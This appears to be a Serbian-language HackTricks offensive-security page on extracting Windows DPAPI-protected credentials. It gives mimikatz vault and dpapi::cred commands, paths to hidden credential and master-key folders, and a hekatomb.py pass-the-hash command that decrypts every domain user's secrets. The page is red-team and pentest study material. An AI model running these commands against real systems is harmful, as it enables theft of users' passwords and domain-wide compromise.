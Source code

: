 # DPAPI - Extracting Passwords

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) je najrelevantniji cybersecurity događaj u **Španiji** i jedan od najvažnijih u **Evropi**. Sa **misijom promovisanja tehničkog znanja**, ovaj kongres je ključno mesto susreta tehnoloških i cybersecurity profesionalaca u svakoj disciplini.

{% embed url="https://www.rootedcon.com/" %}

## Šta je DPAPI

Data Protection API (DPAPI) se uglavnom koristi u Windows operativnom sistemu za **simetrično šifrovanje asimetričnih privatnih ključeva**, koristeći korisničke ili sistemske tajne kao značajan izvor entropije. Ovaj pristup pojednostavljuje šifrovanje za programere tako što im omogućava da šifruju podatke koristeći ključ izveden iz korisničkih prijavljivačkih tajni ili, za sistemsko šifrovanje, sistemskih tajni za autentifikaciju domena, čime se izbegava potreba za upravljanjem zaštitom šifarskog ključa od strane programera.

### Zaštićeni podaci DPAPI-jem

Među ličnim podacima zaštićenim DPAPI-jem su:

* Lozinke i podaci za automatsko popunjavanje Internet Explorer-a i Google Chrome-a
* Lozinke za e-mail i interne FTP naloge za aplikacije poput Outlook-a i Windows Mail-a
* Lozinke za deljene fascikle, resurse, bežične mreže i Windows Vault, uključujući šifarske ključeve
* Lozinke za udaljene desktop konekcije, .NET Passport i privatne ključeve za razne svrhe šifrovanja i autentifikacije
* Mrežne lozinke upravljane od strane Credential Manager-a i lični podaci u aplikacijama koje koriste CryptProtectData, kao što su Skype, MSN messenger i drugi

## Lista Vault

```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```

## Fajlovi sa akreditacijama

**Zaštićeni fajlovi sa akreditacijama** mogu se nalaziti u:

```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

Dobijanje informacija o akreditivima koristeći mimikatz `dpapi::cred`, u odgovoru možete pronaći zanimljive informacije kao što su šifrovani podaci i guidMasterKey.

```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```

Možete koristiti **mimikatz modul** `dpapi::cred` sa odgovarajućim `/masterkey` da dešifrujete:

```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```

## Glavni ključevi

DPAPI ključevi koji se koriste za šifrovanje korisničkih RSA ključeva se čuvaju u direktorijumu `%APPDATA%\Microsoft\Protect\{SID}`, gde je {SID} [**Security Identifier**](https://en.wikipedia.org/wiki/Security\_Identifier) **tog korisnika**. **DPAPI ključ se čuva u istom fajlu kao i glavni ključ koji štiti korisničke privatne ključeve**. Obično je to 64 bajta slučajnih podataka. (Primetite da je ovaj direktorijum zaštićen, tako da ga ne možete izlistati koristeći `dir` komandu iz cmd-a, ali ga možete izlistati iz PowerShell-a).

```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```

Evo kako će izgledati gomila Master ključeva korisnika:

![](<../../.gitbook/assets/image (324).png>)

Obično **svaki Master ključ je šifrovan simetrični ključ koji može dešifrovati druge sadržaje**. Stoga, **izdvajanje** **šifrovanog Master ključa** je interesantno kako bi se kasnije **dešifrovali** ti **drugim sadržaji** koji su šifrovani njime.

### Izdvajanje Master ključa i dešifrovanje

Pogledajte post [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#extracting-dpapi-backup-keys-with-domain-admin) za primer kako izdvojiti Master ključ i dešifrovati ga.

## SharpDPAPI

[SharpDPAPI](https://github.com/GhostPack/SharpDPAPI#sharpdpapi-1) je C# verzija nekih DPAPI funkcionalnosti iz projekta [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/).

## HEKATOMB

[**HEKATOMB**](https://github.com/Processus-Thief/HEKATOMB) je alat koji automatizuje izdvajanje svih korisnika i računara iz LDAP direktorijuma i izdvajanje rezervnog ključa kontrolera domena putem RPC-a. Skripta će zatim rešiti sve IP adrese računara i izvršiti smbclient na svim računarima kako bi dobila sve DPAPI blobove svih korisnika i dešifrovala sve sa rezervnim ključem domena.

`python3 hekatomb.py -hashes :ed0052e5a66b1c8e942cc9481a50d56 DOMAIN.local/administrator@10.0.0.1 -debug -dnstcp`

Sa izdvojene liste računara iz LDAP-a možete pronaći svaku podmrežu čak i ako ih niste znali!

"Zato što prava administratora domena nisu dovoljna. Hakujte ih sve."

## DonPAPI

[**DonPAPI**](https://github.com/login-securite/DonPAPI) može automatski izvući tajne zaštićene DPAPI-jem.

## Reference

* [https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13](https://www.passcape.com/index.php?section=docsys\&cmd=details\&id=28#13)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++#using-dpapis-to-encrypt-decrypt-data-in-c)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) je najrelevantniji sajber bezbednosni događaj u **Španiji** i jedan od najvažnijih u **Evropi**. Sa **misijom promovisanja tehničkog znanja**, ovaj kongres je vrelo susretište za profesionalce iz oblasti tehnologije i sajber bezbednosti u svakoj disciplini.

{% embed url="https://www.rootedcon.com/" %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **kompaniji za sajber bezbednost**? Želite li da vidite **vašu kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
